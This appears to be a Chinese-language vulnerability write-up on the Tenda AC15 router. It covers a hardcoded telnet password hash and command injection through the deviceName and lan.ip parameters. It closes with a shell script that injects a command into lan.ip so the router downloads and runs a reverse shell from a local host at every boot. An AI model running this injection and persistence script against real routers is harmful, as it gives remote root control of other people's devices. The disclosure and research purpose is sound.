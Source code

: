 就像[CVE-2018-5770](https://www.cvedetails.com/cve/CVE-2018-5770/), 一个未经认证的远程用户可以在Tenda AC15路由器上启动一个telnetd服务，并且可以通过这个服务获得root权限。但是最新版本的固件v19, 已经禁用了这个硬编码的后门账户，我们不能再通过这个账户获得root权限了。但是，这个telnet账户密码md5值`9B60FC59706134759DBCAEA58CAF9068`却是硬编码在固件中的，因此我们可以通过爆破这个md5值得到密码，下图显示了硬编码md5的二进制代码以及登陆这个telnet服务的PoC。

[![](https://p3.ssl.qhimg.com/t01760810316486bee6.png)](https://p3.ssl.qhimg.com/t01760810316486bee6.png)

Tenda_login 二进制文件

[![](https://p1.ssl.qhimg.com/t01dfc9d2210e88c2b3.png)](https://p1.ssl.qhimg.com/t01dfc9d2210e88c2b3.png)

Telent Login



## RCE漏洞CVE-2020–10987 &amp; CVE-2020–15916

当我们对httpd的二进制程序进行更进一步的研究，发现deviceName参数和lanIp字段都是借传到了`doSystemCmd`函数中的，这会导致一个任意的命令执行。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t012bf42c98e0e9a867.png)

直接传入`deviceName`

[![](https://p2.ssl.qhimg.com/t014acd29b8f7301b63.png)](https://p2.ssl.qhimg.com/t014acd29b8f7301b63.png)

直接传入`lan.ip`

deviceName的值可以通过认证请求传给web接口，例如像下面这样，可以直接导致路由器的强制重启

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0133924840f568f6f3.png)

使用`deviceName`实现命令注入

同样的，`lan.ip`的值也可以通过相似的web接口传给路由器，但是这种请求更为少见，或者是通过启动telnet程序使用`cfm`传递`lan.ip`的值。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0103e7939c79cdbc23.png)

设置 lan.ip

这种攻击可以持久化，因为lan.ip的值一般情况下不会改变，除非进行出厂化设置才会改变。改变lan.ip的值会暂时导致wifi失效，如果想让路由器的功能正常，还需要重启路由器。



## 更深入的研究

尽管我们可以通过telnet获得路由器的root权限，我们可以更进一步的利用这个漏洞，我们可以在路由器上实现一个持久化的反弹shell。

由于路由器上的busybox程序支持wget，所以我们可以下载一个反弹shell(这个例子中我们把端口配置为8213)到`/tmp`目录下。当我们执行这个命令的时候，我们可以获得root 权限，这个文件在每次重启的时候都会重启。一个更好的办法获得持久的root权限是通过lan.ip的命令注入实现在每次重启的时候下载和运行shell。我们通过创建如下的脚本(`sizzle`)来实现这个功能，可以自动设置lan.ip并且连接我们的端口。需要注意的是，lan.ip中的命令仅会在系统启动的时候执行一次。

```
#! /bin/sh
cfm set lan.ip '192.168.0.1; cd tmp; wget http://192.168.0.112:8000/shell; chmod +x shell; ./shell'
cd tmp; 
wget http://192.168.0.112:8000/shell; 
chmod +x shell;
./shell
```
